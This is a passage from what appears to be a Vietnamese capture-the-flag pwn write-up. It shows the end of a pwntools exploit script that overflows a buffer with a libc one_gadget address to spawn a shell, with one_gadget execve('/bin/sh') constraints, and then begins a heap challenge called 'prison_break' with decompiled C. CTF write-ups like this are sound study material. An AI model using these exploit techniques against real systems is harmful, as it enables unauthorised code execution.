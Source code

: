 ```python
  rbx == NULL || {"/bin/sh", rbx, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
"""

p.sendline(b'3')
input()
p.sendlineafter(b'mission: ',b'a'*0x28 + p64(libc.address+0x583e3))
p.interactive()
```


![image](https://hackmd.io/_uploads/Hyldul0vye.png)


---------------------

## prison_break


checksec

![image](https://hackmd.io/_uploads/BkpLilAv1g.png)

- bài này sẽ có 4 option chính 

![image](https://hackmd.io/_uploads/S107nlRPJx.png)

- create : đầu tiên chương trình nhập vào 1 idx và check xem có chunk nào đã được khởi tạo chưa , tiếp theo nó malloc(0x18) , chunk này sẽ là chunk giữ địa chỉ và size của chunk chính của ta

```c
unsigned __int64 create()
{
  int v0; // eax
  void *ptr2; // rax
  signed int idx; // [rsp+Ch] [rbp-14h] BYREF
  char *ptr1; // [rsp+10h] [rbp-10h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("Journal index:");
  idx = 0;
  __isoc99_scanf("%d", &idx);
  if ( (unsigned int)idx < 10 )
  {
    if ( Chunks[idx] && *(_BYTE *)(Chunks[idx] + 16LL) )
    {
      error("Journal index occupied");
    }
    else
    {
      ptr1 = (char *)malloc(0x18uLL);
      v0 = day++;
      *((_DWORD *)ptr1 + 5) = v0;
      puts("Journal size:");
      __isoc99_scanf("%lu", ptr1 + 8);
      ptr2 = malloc(*((_QWORD *)ptr1 + 1));
      *(_QWORD *)ptr1 = ptr2;
      ptr1[16] = 1;
```